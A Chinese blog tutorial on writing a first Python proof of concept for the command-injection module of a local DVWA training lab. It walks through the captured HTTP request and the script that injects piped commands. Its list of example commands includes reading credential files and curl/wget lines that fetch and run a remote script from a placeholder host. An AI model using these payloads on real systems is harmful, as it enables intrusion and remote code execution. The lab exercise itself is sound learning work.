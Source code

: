 # 原创
：  python攻防---初次编写poc

# python攻防---初次编写poc

**Python攻防—初次编写poc**<br/> 今天在hvv，rt可能因为周末没有多少告警研判，没什么事情做，作为一名蓝队高级工程师（狗头）！我不想做脚本小子了，就来简单的写一个poc入门吧，关注一下，后续还会陆续更新哦。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/3963d26cf7304de6af1710c96aa0a5ea.jpeg"/>

本地搭建DVWA靶场，尝试给DVWA中的命令执行模块写一个poc

```
ping 127.0.0.1 | dir

```

这里应该是php版本导致的乱码，没有什么影响。

### 漏洞原理

dvwa的Command Injection(命令注入) 模块提供了一个ping的功能，如果对输入的参数检查不严格就能导致任意命令执行。<br/> 观察源码：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4243e85b808742cbbe2b2e11475a263e.png"/><br/> 传入的ip参数没有做任何过滤被带入命令执行函数shell_exec，利用linux/win命令特性拼接参数 ping ip | dir<br/> 大家写的时候可以根据目标的系统选择命令执行函数。以下是一些常用的和有用的命令示例：

```
whoami： 这个命令用于显示当前用户的用户名。

id： 该命令显示当前用户和用户组的标识信息。

uname -a： 这个命令会显示系统的详细信息，包括操作系统类型、版本和内核信息。

ls 或 dir（视操作系统而定）： 这些命令用于列出当前目录中的文件和文件夹。

pwd 或 cd（视操作系统而定）： 这些命令分别用于显示当前工作目录的路径和切换目录。

cat /etc/passwd 或 type C:\Windows\System32\config\SYSTEM（视操作系统而定）： 这些命令用于读取系统文件，通常包含用户信息。

curl http://xxx.com/malware.sh | sh： 这个命令会从恶意站点下载并执行一个脚本，这可能会导致恶意代码的执行。

wget http://xxx.com/malware.sh -O - | sh： 类似于上面的命令，使用 wget 下载并执行一个脚本。

```

后端实际执行了`shell_exec('ping 127.0.0.1|dir' )`

### 编写poc

2.1 先分析靶场的http数据包。<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/84169b37c1234b52855f0e3fbebd59ac.png"/>

/vulnerabilities/exec/ 是接口，通过POST方式通信 ，HOST是 127.0.0.1

```
POST /DVWA/vulnerabilities/exec/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/DVWA/vulnerabilities/exec/
Cookie: security=low; PHPSESSID=b0hva9i7nt3vl6neop9k032th1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

ip=ping+127.0.0.1+%7C+dir&amp;Submit=Submit

```

**2.2** 开始编写代码，pycharm，启动！

**2.2.1** 先导入requests库，这是编写poc中一个流行的HTTP请求库，用于向Web服务器发送HTTP请求以及处理响应。

```
import requests

```

**2.2.2** 定义目标URL和数据以及headers信息，如果没有加入cookie可能会导致重定向到登录页面。

```
url = "http://127.0.0.1/DVWA/vulnerabilities/exec/"  # 这一行定义了目标URL，它是你要测试的漏洞是否存在的网页地址。
headers = {"cookie": "security=low; PHPSESSID=b0hva9i7nt3vl6neop9k032th1"}  # 这一行定义了请求头部，其中包含了一个 Cookie，用于在请求中传递会话标识符。
data = {"ip": "127.0.0.1|dir", "Submit":   "Submit"}  # 这里定义了一个字典data，其中包含了一个名为"ip"的参数，其值为"127.0.0.1"。这个参数将被POST请求发送到目标URL。

```

**2.2.3** 发送post请求并打印出需要的内容

```
response = requests.post(url, data, allow_redirects=False, headers=headers) #  这一行发送了一个 POST 请求到目标 URL，使用了上述定义的请求数据和请求头部。allow_redirects=False 参数告诉 requests 库不要自动处理重定向。
print("状态码: {}".format(response.status_code)) # 这一行打印了服务器返回的 HTTP 状态码，以显示请求的结果。
print("页面内容：{}".format(response.text)) # 这一行打印了服务器返回的响应内容，这是响应的主体部分，可能包含了命令执行的输出。
if "Location" in response.headers: # 这一行检查响应头部中是否包含 "Location" 字段，以判断是否有重定向发生。
    print("302跳转地址：{}".format(response.headers["Location"])) # 如果有重定向发生，这一行将打印出重定向地址。

```

**2.2.4** 完整代码：

```
import requests

url = "http://127.0.0.1/DVWA/vulnerabilities/exec/"  # 这一行定义了目标URL，它是你要测试的漏洞是否存在的网页地址。
headers = {"cookie": "security=low; PHPSESSID=b0hva9i7nt3vl6neop9k032th1"}  # 这一行定义了请求头部，其中包含了一个 Cookie，用于在请求中传递会话标识符。
data = {"ip": "127.0.0.1|dir", "Submit":   "Submit"}  # 这里定义了一个字典data，其中包含了一个名为"ip"的参数，其值为"127.0.0.1"。这个参数将被POST请求发送到目标URL。

response = requests.post(url, data, allow_redirects=False, headers=headers) #  这一行发送了一个 POST 请求到目标 URL，使用了上述定义的请求数据和请求头部。allow_redirects=False 参数告诉 requests 库不要自动处理重定向。
print("状态码: {}".format(response.status_code)) # 这一行打印了服务器返回的 HTTP 状态码，以显示请求的结果。
print("页面内容：{}".format(response.text)) # 这一行打印了服务器返回的响应内容，这是响应的主体部分，可能包含了命令执行的输出。
if "Location" in response.headers: # 这一行检查响应头部中是否包含 "Location" 字段，以判断是否有重定向发生。
    print("302跳转地址：{}".format(response.headers["Location"])) # 如果有重定向发生，这一行将打印出重定向地址。

```

这样打印出来的是整个页面的代码，我们修改一下只打印出命令执行的内容方便渗透测试人员判断是否存在漏洞。可以使用bs4库爬取pre标签的内容。pre标签内就是命令执行的内容。

```
import requests
from bs4 import BeautifulSoup

url = "http://127.0.0.1/DVWA/vulnerabilities/exec/"  # 这一行定义了目标URL，它是你要测试的漏洞是否存在的网页地址。
headers = {"cookie": "security=low; PHPSESSID=b0hva9i7nt3vl6neop9k032th1"}  # 这一行定义了请求头部，其中包含了一个 Cookie，用于在请求中传递会话标识符。
data = {"ip": "127.0.0.1|dir", "Submit":   "Submit"}  # 这里定义了一个字典data，其中包含了一个名为"ip"的参数，其值为"127.0.0.1"。这个参数将被POST请求发送到目标URL。

response = requests.post(url, data, allow_redirects=False, headers=headers) #  这一行发送了一个 POST 请求到目标 URL，使用了上述定义的请求数据和请求头部。allow_redirects=False 参数告诉 requests 库不要自动处理重定向。
print("状态码: {}".format(response.status_code)) # 这一行打印了服务器返回的 HTTP 状态码，以显示请求的结果。

if "Location" in response.headers: # 这一行检查响应头部中是否包含 "Location" 字段，以判断是否有重定向发生。
    print("302跳转地址：{}".format(response.headers["Location"])) # 如果有重定向发生，这一行将打印出重定向地址。

soup = BeautifulSoup(response.text, 'html.parser') # 引入了 BeautifulSoup，这是一个用于解析 HTML 的库。
pre_tags = soup.find_all("pre") # 找到了所有的 &lt;pre&gt; 标签
for pre in pre_tags: # 循环遍历每个 &lt;pre&gt; 标签，并使用 pre.text 提取其文本内容并打印
    print("代码执行结果：")
    print(pre.text)

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9771ec026e1646179563544688c70b2a.png"/>通过考虑异常处理，输出格式和输出前缀等因素，代码还可以更加完善。<br/> **2.2.5** 完善后的最终代码

```
import requests
from bs4 import BeautifulSoup

url = "http://127.0.0.1/DVWA/vulnerabilities/exec/"
headers = {"cookie": "security=low; PHPSESSID=b0hva9i7nt3vl6neop9k032th1"}
data = {"ip": "127.0.0.1|dir", "Submit": "Submit"}

try:
    response = requests.post(url, data=data, allow_redirects=False, headers=headers, timeout=5)
    print("状态码: {}".format(response.status_code))

    if "Location" in response.headers:
        print("302跳转地址：{}".format(response.headers["Location"]))

    soup = BeautifulSoup(response.text, 'html.parser')
    pre_tags = soup.find_all("pre")

    if pre_tags:
        print("漏洞存在，代码执行结果：")
        for index, pre in enumerate(pre_tags):
            print(f"结果 {index + 1}:")
            print(pre.text)
    else:
        print("页面不存在漏洞")
except Exception as e:
    print("发生异常：", e)

```

运行结果：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/024fbe0421b648c3a6aeb285465ca5c2.png"/><br/> 完结，撒花，写完后瞬间感觉自己不是只会点鼠标的猴子了，现在变成了又会点鼠标又会敲键盘的猴子…
